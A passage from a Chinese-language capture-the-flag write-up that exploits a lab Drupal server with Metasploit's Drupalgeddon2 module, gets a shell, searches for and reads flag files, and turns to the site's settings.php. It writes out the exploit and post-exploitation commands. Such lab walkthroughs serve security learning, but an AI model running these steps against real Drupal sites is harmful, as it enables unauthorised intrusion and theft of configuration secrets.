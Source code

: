 **upload successful**

  
发现有漏洞可以用那就开始msf吧  
使用2018年的漏洞吧，是个远程代码执行(代码审计现在真心看不懂，😔)  
[https://www.exploit-db.com/exploits/44482](https://www.exploit-db.com/exploits/44482)  
[https://paper.seebug.org/567/](https://paper.seebug.org/567/)  

![upload successful](https://lnng.top/images/pasted-112.png)

**upload successful**

#### [](https://lnng.top/posts/2ea3.html#msf%E5%8F%91%E7%8E%B0%E8%BF%9E%E6%8E%A5%E6%88%90%E5%8A%9F "msf发现连接成功")msf发现连接成功

```
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.124.145
run
```

![upload successful](https://lnng.top/images/pasted-113.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E5%AF%BB%E6%89%BE%E4%B8%80%E4%B8%8Bflag "寻找一下flag")寻找一下flag

```
shell
find / -name flag*
```

![upload successful](https://lnng.top/images/pasted-114.png)

**upload successful**

```
/home/flag4
/home/flag4/flag4.txt
/var/www/flag1.txt
```

打开flag1.txt试试

```
cat /var/www/flag1.txt
```

![upload successful](https://lnng.top/images/pasted-115.png)

**upload successful**

  
翻译一下:每一个好的CMS都需要一个配置文件–你也一样。  
搜索Drupal的配置文件  
/var/www/sites/default/settings.php，打开

